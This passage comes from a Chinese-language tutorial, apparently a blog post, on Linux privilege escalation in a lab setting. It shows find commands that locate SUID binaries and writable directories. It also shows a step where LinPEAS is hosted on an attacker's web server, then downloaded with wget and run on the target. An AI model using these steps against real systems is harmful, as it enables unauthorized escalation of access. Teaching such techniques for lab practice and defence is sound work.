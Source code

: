 ```
find / -size + 100M -type f 2>/del/null
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7b3d1967b14640b8909198094cded7b4.png)
查找对应权限的文件：
```
find / -perm -o x -type d 2>/dev/null : 查找可执行文件夹
find / -perm -o w -type d 2>/dev/null: 查找可写文件夹
```
查找开发工具和支持的语言：
```
find / -name perl*
find / -name python*
find / -name gcc*
```
查找特定文件权限：
这个是我提权经常用的命令，关于什么是suid位，下面实战有详细介绍
```
find / -perm -u=s -type f 2>/dev/null: 查找带有 SUID 位的文件，它允许我们以比当前用户更高的权限级别运行文件。
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0026900d568d46ad958a76ccbdc5f697.png)
# 自动化枚举工具
这里我列举一个常用的枚举脚本
## LinPeas
```
https ://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```
下载好后，将此脚本放到/var/www/html目录下
![在这里插入图片描述](https://img-blog.csdnimg.cn/3b6ad2984ca74ab68b6c7d81e73aae75.png)
启动apache服务
```
service apache2 start
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/98bdfd50f44f449ab978be9d49a27594.png)
回到靶机，移动到/tmp目录下，因为tmp目录默认运行任何用户都可以在里面执行文件，然后下载此脚本
```
cd /tmp
wget http://ip/linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/54eb50657cc04668be120755c07d85d6.png)
赋予文件执行权限，然后执行
```
chmod +x linpeas.sh
./linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f5925cd1ce9498ca10a09d7c189f761.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d276471f516242cc887124c3805b11c1.png)
我们可以看到，sudo命令和linux内核都有漏洞，并且还指明了cve的编号，非常方便
之后还有一大堆东西，大家有兴趣可以自己慢慢看，我们主要还是利用这两个漏洞提权
# 内核利用提权
内核利用方法很简单：
```
识别内核版本
搜索并找到目标系统内核版本的漏洞利用代码
运行漏洞利用
```
我们拿到shell后，发现只是一个普通用户，而且也不能进入root目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/839820d319f94154ac245c72f17e41a6.png)